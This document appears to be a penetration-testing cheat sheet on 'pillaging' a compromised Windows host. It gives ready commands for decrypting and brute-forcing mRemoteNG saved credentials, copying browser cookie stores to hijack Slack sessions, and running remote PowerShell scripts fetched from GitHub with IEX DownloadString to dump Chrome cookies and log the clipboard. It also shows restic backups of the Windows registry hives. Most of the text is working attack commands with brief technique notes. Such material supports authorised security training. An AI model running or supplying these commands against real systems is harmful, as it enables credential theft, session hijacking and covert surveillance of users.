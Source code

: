 ### Installed Applications
```powershell
C:\>dir "C:\Program Files"
$INSTALLED = Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, InstallLocation
$INSTALLED += Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, InstallLocation
$INSTALLED | ?{ $_.DisplayName -ne $null } | Sort-Object -Property DisplayName -Unique | Format-Table -AutoSize
```

### mRemoteNG
```bash
ls C:\Users\julio\AppData\Roaming\mRemoteNG
python3 mremoteng_decrypt.py -s "sPp6b6Tr2iyXIdD/KFNGEWzzUyU84ytR95psoHZAFOcvc8LGklo+XlJ+n+KrpZXUTs2rgkml0V9u8NEBMcQ6UnuOdkerig=="
python3 mremoteng_decrypt.py -s "EBHmUA3DqM3sHushZtOyanmMowr/M/hd8KnC3rUJfYrJmwSj+uGSQWvUWZEQt6wTkUqthXrf2n8AR477ecJi5Y0E/kiakA==" -p admin
for password in $(cat /usr/share/wordlists/fasttrack.txt); do echo $password; python3 mremoteng_decrypt.py -s "EBHmUA3DqM3sHushZtOyanmMowr/M/hd8KnC3rUJfYrJmwSj+uGSQWvUWZEQt6wTkUqthXrf2n8AR477ecJi5Y0E/kiakA==" -p $password 2>/dev/null; done
```

### Abusing Cookies (Slack - Firefox)
```powershell
copy $env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\cookies.sqlite .
python3 cookieextractor.py --dbpath "/home/plaintext/cookies.sqlite" --host slack --cookie d
```

### Abusing Cookies (Slack - Chrome)
```powershell
copy "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Network\Cookies" "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Cookies"
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-SharpChromium.ps1')
Invoke-SharpChromium -Command "cookies slack.com"
```

### Clipboard
```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/inguardians/Invoke-Clipboard/master/Invoke-Clipboard.ps1')
Invoke-ClipboardLogger
```

### Attacking Backup Servers (restic)
```powershell
mkdir E:\restic2; restic.exe -r E:\restic2 init
$env:RESTIC_PASSWORD = 'Password'
restic.exe -r E:\restic2\ backup C:\SampleFolder
restic.exe -r E:\restic2\ backup C:\Windows\System32\config --use-fs-snapshot
restic.exe -r E:\restic2\ snapshots
restic.exe -r E:\restic2\ restore 9971e881 --target C:\Restore
```



**Core Concept:**

- **Pillaging:** Extracting valuable data (credentials, configurations, sensitive files) from a compromised system to further lateral movement or achieve penetration testing objectives.

**Key Areas & Techniques:**

- **Installed Applications:**
    - Use `dir` to quickly list programs.
    - Use PowerShell `Get-ItemProperty` to get detailed application info from the registry.
- **mRemoteNG:**
    - Locate `confCons.xml` (connection configuration).
    - Use `mremoteng_decrypt.py` to decrypt stored credentials (default or custom master password).
    - Use a for loop to bruteforce passwords.
- **IM Client Access (Slack):**
    - **Firefox:** Copy `cookies.sqlite` and use `cookieextractor.py` to extract authentication cookies.
    - **Chrome:** Copy the Cookies file, and use `Invoke-SharpChromium` to decrypt the cookies.
    - Use Cookie editor browser extensions to import the captured cookies.
- **Clipboard:**
    - Use `Invoke-ClipboardLogger` (PowerShell) to capture clipboard data (passwords, 2FA tokens).
- **Backup Servers (restic):**
    - Use `restic` to create and restore backups.
    - Initialize repositories, backup directories (with VSS for system files), and restore backups using snapshot IDs.
    - Target backup files for sensitive data.
- **General Principles:**
    - Target diverse data sources (fileshares, databases, browsers, etc.).
    - Focus on credential harvesting.
    - Adapt to the specific environment and applications.
    - Understand the roles and services running on the compromised host.

**Tools & Commands:**

- `dir` (Windows command)
- PowerShell `Get-ItemProperty`, `copy`, `IEX`
- `python3 mremoteng_decrypt.py`
- `python3 cookieextractor.py`
- `Invoke-SharpChromium` (PowerShell)
- `Invoke-ClipboardLogger` (PowerShell)
- `restic.exe`

**Key Focus:**

- Credential access (passwords, cookies).
- Lateral movement through extracted information.
- Understanding backup systems.